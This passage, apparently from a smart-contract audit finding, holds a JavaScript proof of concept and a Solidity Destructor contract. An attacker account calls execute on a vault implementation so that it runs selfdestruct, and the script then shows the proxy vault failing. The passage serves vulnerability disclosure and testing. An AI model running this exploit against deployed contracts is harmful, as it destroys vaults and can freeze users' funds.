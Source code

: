 ```javascript
    let implVaultCode = await ethers.provider.getCode(implVaultAddress);
    console.log("Impl Vault code size before:", implVaultCode.length - 2); // -2 for the 0x prefix
    let owner = await proxyVault.owner();
    console.log("Proxy Vault works fine, owner is: ", owner);


    await vaultImpl.connect(attacker).execute(destructor.address, destructData, []);


    // after: vault implementation is destructed
    implVaultCode = await ethers.provider.getCode(implVaultAddress);
    console.log("\nVault code size after:", implVaultCode.length - 2); // -2 for the 0x prefix

    try {
        owner = await proxyVault.owner();
    } catch (e) {
        console.log("Proxy Vault isn't working anymore.", e.toString().substring(0, 300));
    }
}

async function deployVault(baseVault, registry, attacker) {
    const nodes = await baseVault.getLeafNodes();

    const tx = await registry.connect(attacker).create(nodes[0], [], []);
    const receipt = await tx.wait();

    const vaultEvent = receipt.events.find(e => e.address == registry.address);

    const newVaultAddress = vaultEvent.args._vault;
    const newVault = await ethers.getContractAt("Vault", newVaultAddress);
    return newVault;
}


if (require.main === module) {
    main()
}
```

`Destructor.sol` file:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.13;

contract Destructor{
    function destruct(address payable dst) public {
        selfdestruct(dst);
    }
}
```
